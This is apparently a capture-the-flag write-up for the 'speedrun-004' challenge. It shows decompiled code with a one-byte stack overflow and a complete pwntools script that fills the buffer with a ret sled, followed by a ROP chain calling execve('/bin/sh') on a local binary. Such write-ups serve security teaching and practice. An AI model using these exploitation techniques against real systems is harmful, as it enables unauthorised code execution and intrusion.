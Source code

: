 ```
./speedrun-004: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=3633fdca0065d9365b3f0c0237c7785c2c7ead8f, stripped
```

Statically linked binary!

```
void __cdecl sub_400BD2()
{
  char buf; // [rsp+2h] [rbp-Eh]
  char v1; // [rsp+Bh] [rbp-5h]
  int size; // [rsp+Ch] [rbp-4h]

  puts((__int64)"how much do you have to say?");
  read(0, &buf, 9uLL);
  v1 = 0;
  size = atoi((__int64)&buf);
  if ( size > 0 )
  {
    if ( size <= 257 )
      func(size);
    else
      puts((__int64)"That's too much to say!.");
  }
  else
  {
    puts((__int64)"That's not much to say.");
  }
} 

void __fastcall func(int size)
{
  char buf[256]; // [rsp+10h] [rbp-100h]

  buf[0] = 0;
  puts((__int64)"Ok, what do you have to say for yourself?");
  read(0, buf, size);
  printf((__int64)"Interesting thought \"%s\", I'll take it into consideration.\n", buf);
}
```

We input 257 in sub_400BD2 which leads to one-byte overflow in func().
Since sub_400BD2 returns right after func() returns, we can return to the address value somewhere in buf using one-byte overflow.
It is not easy to use specific stack address. but we can use ret sled, filling buf with address of 'ret' gadget, 
followed by rop chain that calls execve("/bin/sh", NULL, NULL)

```
from pwn import *

bin = ELF('./speedrun-004')

bss = 0x6bc0f6
pop_rax_ret = 0x415f04
pop_rdi_ret = 0x400686
pop_rsi_ret = 0x410a93
pop_rdx_ret = 0x44a155
syscall_ret = 0x474f15
mov_ret = 0x47f521  # move qword ptr [rsi], rax ; ret
ret = 0x400416

p = process('./speedrun-004')

# gdb.attach(p, 'b * 0x400c45')

p.recvuntil('how much do you have to say?\n')
p.send(str(257))

rop_chain = p64(pop_rsi_ret) + p64(bss)
rop_chain += p64(pop_rax_ret) + '/bin/sh\x00'
rop_chain += p64(mov_ret)
rop_chain += p64(pop_rax_ret) + p64(0x3b)
rop_chain += p64(pop_rdi_ret) + p64(bss)
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(syscall_ret)

payload = p64(ret) * ((0x100 - len(rop_chain)) / 8)
payload += rop_chain
payload += '\x00'

p.sendafter('Ok, what do you have to say for yourself?\n', payload)
p.interactive()
```